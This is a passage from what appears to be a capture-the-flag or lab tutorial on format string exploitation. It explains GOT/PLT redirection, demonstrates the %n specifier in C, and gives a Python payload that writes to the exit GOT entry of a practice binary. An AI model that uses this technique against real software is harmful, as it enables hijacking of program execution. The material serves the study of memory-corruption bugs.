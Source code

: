 Subsequent calls to the function:

``` 
Program                CODE                                  GOT
+---------------+      +------------------+                +-----+
| ...           |      | Loader           |  +------------>+ ... |
| call exit     +--+   | code             |  |             +--+--+
| ...           |  |   | ---- PLT --------|  |                |
+---------------+  +-->+ jmp [exit@GOT]   +--+                |
                       | push 0x30        |           function|code
                       | jmp 0x804837c    |                +--v---+
                       | ...              |                | ...  |
                       +------------------+                +------+
```
 
Knowing this, it is possible to hijack the execution flow by overwriting the GOT entry of a function that will be called later on.

As we have seen above, it is possible to **read** from memory, which is good to leak memory, but a way to **write** into memory is needed to abuse the vulnerability and redirect code execution. Luckily, as stated in the previous section, a format specifier can be used to write: `%n`. Using `%n` allows to write the number of bytes from the beginning to the string to where the specifier is in place, for instance:


```C
int count = 0;
printf("whatever %n you say\n", &count);
printf("count = %d\n", count);
```

```
whatever you say
count = 9
```

In this example, the count of characters written is being stored in the `count` variable.

Under this premise, the next step is to create an exploit that can write to a specified memory address, in this case, to the address containing the `exit` GOT entry.

 ```python=
 import struct

exit_fnc = 0x8049724 # exit actual address in the GOT

payload = struct.pack("I",exit_fnc) # Convert address of exit from Big-endian to Little-endian
payload += "%4$n"

print(payload)
 ```

```sh
$./format4_string.py > /tmp/format4
```

For this test, the program must be loaded in debug mode and set some breakpoints to confirm that the content of `exit` (`0x8049724`) is being overwritten:

